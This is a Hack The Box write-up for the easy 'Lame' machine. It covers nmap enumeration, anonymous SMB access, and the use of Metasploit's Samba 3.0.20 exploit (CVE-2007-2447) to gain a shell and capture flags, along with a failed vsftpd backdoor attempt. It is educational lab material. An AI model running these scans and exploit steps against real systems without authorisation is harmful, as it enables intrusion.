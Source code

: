 ## **Hack The Box - Lame**

**Creator:**

**Difficulty:** Easy

**Link:** [Link to HTB-Lame](

---

### Walkthrough


<ins>**Enumeration**</ins>

Since Hackthebox provides us with the machines IP address there is no need to do an initial discovery scan on our network like with other vulnerable machines. 

Instead for my first step I enumerate the services with open ports and try to figure out their versions. 

`nmap -sV -sC <target_ip>` 

Where the *-sV* switch tells nmap to identify service versions and *-sC* tells it to perform a script scan using the default set of scripts and *<target_ip>* is the IP address for the machine provided by hack the box. 

![Service Enumeration Fail](/docs/assets/images/HTB/Lame/lame01.png)

It can be seen from the results that the machine is blocking ping scans and that nmap suggests we try to use the *-Pn* switch. This switch tells nmap to disable host discovery and to only scan ports.

`nmap -sV -sC -Pn <target_ip>`

![Enumeration Results](/docs/assets/images/HTB/Lame/lame02.png)

\* *Another thing that can be done is to output the scan results into a file, which along with taking screenshots can be handy for referencing later (For example here is an old screenshot of the first time I attempt to scan this machine)*

![Output Scan Results To A File](/docs/assets/images/HTB/Lame/lame03.png)

The `-O` switch tells nmap to also try to discover the machines operating system.

So the Results from the initial nmap scan are

> Port 21 open to FTP traffic using version vsftpd
> 
> Port 22 open to SSH traffic using version OpenSSH 4.7p1
> 
> Port 139 open to smb traffic using version Samba 3.x - 4.x]
> 
> Port 445 open to smb traffic using version Samba 3.0.20

It's also possibly running Linux as it's Operating System.

The *anonymous* credentials for *smbclient* do allow for a look into the machine, but with such low privileges there wasn't a whole lot I could find to do.

```
smbclient -L 10.10.10.3 
smbclient \\\\10.10.10.3\\tmp
When prompted for a password simply press enter
```

![smbclient1](/docs/assets/images/HTB/Lame/lame04.png)

![smbclient2](/docs/assets/images/HTB/Lame/lame05.png)

The files labeled *exploit* and *vgauthsvclog.txt* appeared to be intersting but after downloading and reading through them there wasn't much I was able to do.

---


<ins>**Known Exploits**</ins>

*searchsploit* can be used to search for known exploits related to the service versions that nmap found. On this machine two known exploits that work with metasploit are found.

The first is an exploit related to the *ftp* version.

**CVE:** 2011-2523 

**Link:** [Exploitdb Link](https://www.exploit-db.com/exploits/17491)

**More Detailed Link:** [NIST Link](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)

![ftp searchsploit](/docs/assets/images/HTB/Lame/lame06.png)

The second one is related to the *samba* version

**CVE:** 2007-2447 

**Link:** [Exploitdb Link](https://www.exploit-db.com/exploits/16320)

**More Detailed Link:** [NIST Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

![samba searchsploit](/docs/assets/images/HTB/Lame/lame07.png)

As both of these exploits work with *Metasploit* it's fairly easy to test them.

---

<ins>**The Exploit That Works**</ins>


Of the two exploits this machine appears to be vulnerable to I was only able to get the one that targets Samba 3.0.20 to work.

This exploit is made for *Metasploit* so it's simple to execute. Enter the following to bring up the *Metasploit Framework* and search for the path to the exploit.

```
msfconsole
search samba 3.0.20
```

![msfconsole and search](/docs/assets/images/HTB/Lame/lame08.png)
![msfconsole and search](/docs/assets/images/HTB/Lame/lame09.png)

In this case it's the first and only exploit that shows up so either enter `use 0` or `use <file_path>` to select the exploit. From there entering `options` will display all of the options that can be manually adjusted.

![Samba Exploit Options](/docs/assets/images/HTB/Lame/lame10.png)

The available options are *RHOSTS*, *RPORT*, *LHOST*, *LPORT*. For the purposes of this exploit the only two to be concerned with are *RHOSTS* and *LHOST* options. Enter the following options
```
set RHOSTS <target_ip>
set LHOST <host_ip>
```
Where the <target_ip> is the IP address for the machine provided by Hack the box and <host_ip> represents the IP address associated with your machine.

![Set Hosts](/docs/assets/images/HTB/Lame/lame11.png)
\* I initially made a mistake here as it's *LHOST* not *LHOSTS*

Then just enter `run` in the console and wait a moment while Metasploit works it's magic. Eventually your console will display a dialogue that looks similar to the one below and then you can start entering commands on the target machine.

![Exploit](/docs/assets/images/HTB/Lame/lame12.png)

`whoami`

![whoami](/docs/assets/images/HTB/Lame/lame13.png)

From there it's just using commands to explore the file system to find the flags.

![Explore File System User](/docs/assets/images/HTB/Lame/lameuserflag.png)

![Explore File System Root](/docs/assets/images/HTB/Lame/lame14.png)

Copy the flag and submit it on Hackthebox and you're done.

![Lame Pwn](/docs/assets/images/HTB/Lame/lamepwn.png)

---

<ins>**The Exploit That Didn't Work**</ins>

I was not able to successfully execute the ftp vulnerability. After doing some searching online I mostly found a lot of blog posts very similar to this one expressing the same thing. So very briefly I'll provide a quick break down of my attempt to do so with screenshots and if anyone who happens to read this knows how to actually make the exploit work please update me in the comments.

As this one is another Metasploit exploit the first thing to do is again open the msfconsole and search for the exploits file path.

![msfconsole ftp](/docs/assets/images/HTB/Lame/lame15.png)

From here it will be the same as before where we select the exploit by entering `use 0` or `use <file_path>` and then enter `options` to see the options available for this exploit.
This time around the only concer is the *RHOSTS* options so enter `set RHOSTS <target_ip>`. I will usually enter `options` again just to verify I set everything correctly.

![msfconsole ftp options](/docs/assets/images/HTB/Lame/lame16.png)

From there simply enter `run` into the console and let Metasploit once again work it's magic. Eventually an error will display claiming the exploit was completed but no session was created.

![msfconsole ftp error](/docs/assets/images/HTB/Lame/lame17.png)

That's all there is to that one as far as I can tell. I found one blog post claiming that the exploit was just a backdoor that was patched out of that version and was only available for a short time. I really couldn't find a source on that information though.

---

<ins>**Final Thoughts**</ins>

Not a whole lot. Lame is a relatively easy machine intended to be the first part of a *Beginner Track* offered by Hackthebox. I could see it being frustrating if you attempted the broken exploit first and got hung up on trying to make it work. I believe each of these exploits can also be executed manually if you'd like an additional challenge. Outside of that as far as I can tell Lame doesn't really have a whole lot going on with it.



